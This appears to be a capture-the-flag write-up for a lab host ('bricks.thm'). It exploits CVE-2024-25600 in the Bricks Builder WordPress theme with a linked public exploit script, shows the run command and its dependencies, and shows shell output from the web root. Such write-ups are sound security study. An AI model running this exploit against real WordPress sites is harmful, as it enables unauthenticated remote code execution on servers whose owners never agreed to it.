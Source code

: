 ### CVE-2024-25600: Bricks WordPress Theme RCE

After researching Bricks theme vulnerabilities for version 1.9.5, we identified **CVE-2024-25600** - a critical Remote Code Execution vulnerability affecting Bricks Builder versions ≤ 1.9.6.

**Vulnerability Details:**
- **CVE:** CVE-2024-25600
- **CVSS Score:** 10.0 (Critical)
- **Type:** Unauthenticated Remote Code Execution
- **Affected:** Bricks Builder ≤ 1.9.6
- **Root Cause:** Improper input validation in REST API endpoint

### Exploitation Tool

Using the exploit from: https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT

```bash
python CVE-2024-25600.py --url https://bricks.thm --threads 10
```

**Required Dependencies:**
```bash
pip install alive_progress bs4 prompt_toolkit requests rich
```

*Note: If installation fails, create a Python virtual environment first.*

### Gaining Shell Access

The exploit successfully provided an interactive shell environment:

![Shell Access](images/Pasted%20image%2020250809183224.png)

Running the above command gives us a RCE shell.

---

## 🎯 Flag Discovery

### First Flag
```bash
Shell> ls -la  
total 260  
drwxr-xr-x  7 apache apache  4096 Aug  9 12:34 .  
drwxr-xr-x  3 root   root    4096 Apr  2  2024 ..  
-rw-r--r--  1 apache apache   523 Apr  2  2024 .htaccess  
-rw-r--r--  1 root   root      43 Apr  5  2024 650c844110baced87e1606453b93f22a.txt  
-rw-r--r--  1 apache apache   405 Apr  2  2024 index.php  
drwxr-xr-x  7 apache apache  4096 Apr 12  2023 kod  
-rw-r--r--  1 apache apache 19915 Apr  4  2024 license.txt  
drwxr-xr-x 15 apache apache  4096 Apr  2  2024 phpmyadmin  
-rw-r--r--  1 apache apache  7401 Apr  4  2024 readme.html  
-rw-r--r--  1 apache apache  7387 Apr  4  2024 wp-activate.php  
drwxr-xr-x  9 apache apache  4096 Apr  2  2024 wp-admin  
-rw-r--r--  1 apache apache   351 Apr  2  2024 wp-blog-header.php  
-rw-r--r--  1 apache apache  2323 Apr  2  2024 wp-comments-post.php  
-rw-r--r--  1 apache apache  3012 Apr  4  2024 wp-config-sample.php  
-rw-rw-rw-  1 apache apache  3288 Apr  2  2024 wp-config.php  
drwxr-xr-x  6 apache apache  4096 Aug  9 12:34 wp-content  
-rw-r--r--  1 apache apache  5638 Apr  2  2024 wp-cron.php  
drwxr-xr-x 30 apache apache 16384 Apr  4  2024 wp-includes  
-rw-r--r--  1 apache apache  2502 Apr  2  2024 wp-links-opml.php  
-rw-r--r--  1 apache apache  3927 Apr  2  2024 wp-load.php  
-rw-r--r--  1 apache apache 50917 Apr  4  2024 wp-login.php  
-rw-r--r--  1 apache apache  8525 Apr  2  2024 wp-mail.php  
-rw-r--r--  1 apache apache 28427 Apr  4  2024 wp-settings.php  
```